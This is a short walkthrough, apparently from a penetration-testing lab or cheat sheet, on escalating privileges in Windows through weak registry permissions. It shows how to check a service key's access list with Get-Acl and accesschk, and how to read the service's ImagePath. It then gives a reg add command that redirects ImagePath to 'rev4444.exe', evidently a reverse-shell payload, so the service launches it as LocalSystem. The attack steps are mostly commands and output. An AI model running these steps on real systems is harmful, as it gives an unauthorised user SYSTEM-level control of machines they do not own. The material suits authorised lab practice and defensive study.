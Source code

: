 
3. Weak Registry Permissions

First, check

```powershell
# check registry permissions of a service for HKLM\system\currentcontrolset\services\regsvc

PS C:\Temp> Get-Acl HKLM:\system\currentcontrolset\services\regsvc | Format-List
Get-Acl HKLM:\system\currentcontrolset\services\regsvc | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\system\currentcontrolset\services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  : 
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)

# OR same with accesschk.exe

.\accesschk.exe /accepteula -uvwqk HKLM\system\currentcontrolset\services\regsvc

# we see that NT AUTHORITY\INTERACTIVE has full control
# all localy logged in users are part of the INTERACTIVE GROUP
# So changing this registry entry can allow users to perform privileged actions
```

Now, check current reistry values for interesting entries

```powershell
PS C:\Temp> reg query HKLM\system\currentcontrolset\services\regsvc

HKEY_LOCAL_MACHINE\system\currentcontrolset\services\regsvc
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe" #looks interesting
    DisplayName    REG_SZ    Insecure Registry Service
    ObjectName    REG_SZ    LocalSystem

```

Replace registry entry with your own

```powershell

reg add HKLM\system\currentcontrolset\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\user\AppData\Local\Temp\priv\rev4444.exe" /f

The operation completed successfully.
```
